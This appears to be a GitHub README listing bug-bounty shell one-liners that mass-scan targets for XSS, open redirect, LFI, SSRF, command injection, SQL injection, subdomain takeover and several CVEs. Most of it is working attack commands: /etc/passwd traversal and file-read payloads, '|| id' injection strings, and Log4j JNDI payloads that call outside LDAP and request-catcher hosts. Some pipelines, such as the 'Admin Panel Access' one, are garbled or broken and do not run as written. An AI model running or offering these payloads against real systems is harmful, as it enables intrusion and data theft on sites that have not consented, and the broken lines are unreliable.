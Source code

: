 # One-Liner-Scripts
***A collection of awesome one-liner scripts especially for bug bounty.***


**XSS**

```
echo "target.com" | waybackurls | httpx -silent | Gxss -c 100 -p Xss | grep "URL" | cut -d '"' -f2 | sort -u | dalfox pipe
```

**OpenRedirect**

```
waybackurls target.com | grep -a -i \=http | qsreplace 'https://evil.com' | while read host do;do curl -s -L $host -I|grep "https://evil.com" && echo -e "$host \033[0;31mVulnerable\n" ;done
```

**SubDomain TakeOver**

```
cat subdomains.txt | xargs  -P 50 -I % bash -c "dig % | grep CNAME" > cname.txt
```
```
cat cname.txt | awk '{print $1}' | sed 's/.$//g' | httpx -silent -status-code -cdn -csp-probe -tls-probe
```

**CVE-2021-41773**

```
cat targets.txt | while read host do ; do curl --silent --path-as-is --insecure "$host/cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd" | grep "root:*" && echo "$host \033[0;31mVulnerable\n" || echo "$host \033[0;32mNot Vulnerable\n";done
```

**XSS**

```
cat urls.txt | kxss | awk ‘{print $4}’| sort -u | dalfox pipe -b <you blind xss> — custom-payload <your payload> -w 300 — multicast — mass — only-poc -o xss_vulns.txt
```
```
cat urls.txt | kxss | awk ‘{print $4}’| sort -u >> xss_list.txt
```

**Hidden Dirs**
```
dirsearch -e conf,config,bak,backup,swp,old,db,sql,asp,aspx,aspx~,asp~,py,py~,rb,rb~,php,php~,bak,bkp,cache,cgi,conf,csv,html,inc,jar,js,json,jsp,jsp~,lock,log,rar,old,sql,sql.gz,sql.zip,sql.tar.gz,sql~,swp,swp~,tar,tar.bz2,tar.gz,txt,wadl,zip,log,xml,js,json  -u https://target
```

**Open Redirect**

```
subfinder -silent -d domain | anew subdomains.txt | httpx -silent | anew urls.txt | hakrawler | anew endpoints.txt | while read url; do curl $url --insecure | haklistgen | anew wordlist.txt; done
```
```
cat subdomains.txt urls.txt endpoints.txt | haklistgen | anew wordlist.txt;
```

**Hidden Params in JS**

```
cat subdomains.txt | gauplus -subs -t 100 -random-agent | sort -u --version-sort | httpx -silent -threads 2000 | grep -Eiv '(.eot|.jpg|.jpeg|.gif|.css|.tif|.tiff|.png|.ttf|.otf|.woff|.woff2|.ico|.svg|.txt|.pdf)' | while read url; do vars=$(curl -s $url | grep -Eo "var [a-zA-Z0-9]+" | sed -e 's,'var','"$url"?',g' -e 's/ //g' | grep -Eiv '\.js$|([^.]+)\.js|([^.]+)\.js\.[0-9]+$|([^.]+)\.js[0-9]+$|([^.]+)\.js[a-z][A-Z][0-9]+$' | sed 's/.*/&=FUZZ/g'); echo -e "\e[1;33m$url\e[1;32m$vars";done
```

**LFI**

```
gau domain.tld | gf lfi | qsreplace "/etc/passwd" | xargs -I% -P 25 sh -c 'curl -s "%" 2>&1 | grep -q "root:x" && echo "VULN! %"'
```

**XSS**

```
gospider -S targets_urls.txt -c 10 -d 5 --blacklist ".(jpg|jpeg|gif|css|tif|tiff|png|ttf|woff|woff2|ico|pdf|svg|txt)" --other-source | grep -e "code-200" | awk '{print $5}'| grep "=" | qsreplace -a | dalfox pipe | tee result.txt
```

**Prototype Pollution**

```
subfinder -d target.com -all -silent | httpx -silent -threads 300 | anew -q alive.txt && sed 's/$/\/?__proto__[testparam]=exploit\//' alive.txt | page-fetch -j 'window.testparam == "exploit"? "[VULNERABLE]" : "[NOT VULNERABLE]"' | sed "s/(//g" | sed "s/)//g" | sed "s/JS //g" | grep "VULNERABLE"
```

**PortScan without Waf**

```
subfinder -silent -d uber.com | filter-resolved | cf-check | sort -u | naabu -rate 40000 -silent -verify | httprobe
```

**SubDomain Takeover**

```
subfinder -d {target} >> domains ; assetfinder -subs-only {target} >> domains ; amass enum -norecursive -noalts -d {target} >> domains ; subjack -w domains -t 100 -timeout 30 -ssl -c ~/go/src/github.com/haccer/subjack/fingerprints.json -v 3 >> takeover ; 
```

**Hidden Servers & Admin Panels**

```
ffuf -c -u https://target .com -H "Host: FUZZ" -w vhost_wordlist.txt 
```

**XSS**

```
waybackurls target.com| grep '=' |qsreplace '"><script>alert(1)</script>' | while read host do ; do curl -s --path-as-is --insecure "$host" | grep -qs "<script>alert(1)</script>" && echo "$host \033[0;31m" Vulnerable;done
```

**SSRF**

```
cat wayback.txt | gf ssrf | sort -u |anew | httpx | qsreplace 'burpcollaborator_link' | xargs -I % -P 25 sh -c 'curl -ks "%" 2>&1 | grep "compute.internal" && echo "SSRF VULN! %"'
```

**Admin Panel Access**

```
cat urls.txt | qsreplace "?admin=true" | gau | phpgcc | anew | kxss | awk  -v  -q txt | sed 's/http/\nhttp/g' | grep ^http | sed 's/\(^http[^ <]*\)\(.*\)/\1/g' | grep -vi -e dalfox -e lElLxtainw| sort -u | waybackurls
```

**Extract sensitive end-point in JS**

```
cat main.js | grep -oh "\"\/[a-zA-Z0-9_/?=&]*\"" | sed -e 's/^"//' -e 's/"$//' | sort -u
```

**Command Injection**

```
subfinder -d target.com | httpx | gau | qsreplace “aaa%20%7C%7C%20id%3B%20x” > fuzzing.txt
```
```
ffuf -ac -u FUZZ -w fuzzing.txt -replay-proxy 127.0.0.1:8080
```

**Log4j**

```
subfinder -d target.com -silent |puredns resolve -q |httprobe | while read url; do case1=$(curl -s $url -H "X-Api-Version: ${jndi:ldap://Yourburpcolab/a}"); case2=$(curl -s "$url/?test=${jndi:ldap://Yourburpcolab/a}"); case3=$(curl -s $url -H "User-Agent: ${jndi:ldap://Yourburpcolab/a}"); echo -e "\033[43mDOMAIN => $url\033[0m]" "\n" " Case1=> X-Api-Version: running-Ldap-payload" "\n" " Case1=> Useragent: running-Ldap-payload" "\n" " Case1=> $url/?test=running-Ldap-payload" "\n";done
```

**SQLi**

```
sqlmap -u "https://target" --header="X-Forwarded-For: 1*" --dbs --batch --random-agent --threads=10 
```

**CVE-2021-44228**

```
cat subdomains.txt | while read host do; do curl -sk --insecure --path-as-is "$host/?test=${jndi:ldap://log4j.requestcatcher.com/a}" -H "X-Api-Version: ${jndi:ldap://log4j.requestcatcher.com/a}" -H "User-Agent: ${jndi:ldap://log4j.requestcatcher.com/a}";done
```

**LFI**

```
subfinder -d target.com | httpx -follow-redirects -title -path /api/geojson?url=file:///etc/passwd -match-string "root:x:0:0"
```

**CVE-2021-40438**

```
cat file.txt | while read host do;do curl --path-as-is --insecure "$host/?unix:(7701 A's here) | "https://bugbounty.requestcatcher.com/ssrf" | grep "request caught" && echo "$host \033[0;31mVuln\n" || echo "$host \033[0;32mNot\n";done
```

**RCE**

```
cat subdomains.txt | httpx | gau | qsreplace “aaa%20%7C%7C%20id%3B%20x” > fuzzing.txt
```
```
ffuf -ac -u FUZZ -w fuzzing.txt -replay-proxy 127.0.0.1:8080
```

**LFI**

```
gau https://target.com | gf lfi | qsreplace "/etc/passwd" | xargs -I% -P 25 sh -c 'curl -s "%" 2>&1 | grep -q "root:x" && echo "VULN! %"'
```

**Open Redirect**

```
cat domains.txt | waybackurls | httpx -silent -timeout 2 -threads 100 | gf redirect | anew
```

**More Scripts Coming Sooon.....**

***Support Me***


[![paypal](https://www.paypalobjects.com/en_US/i/btn/btn_donateCC_LG.gif)](https://www.paypal.com/paypalme/litt1eb0y)
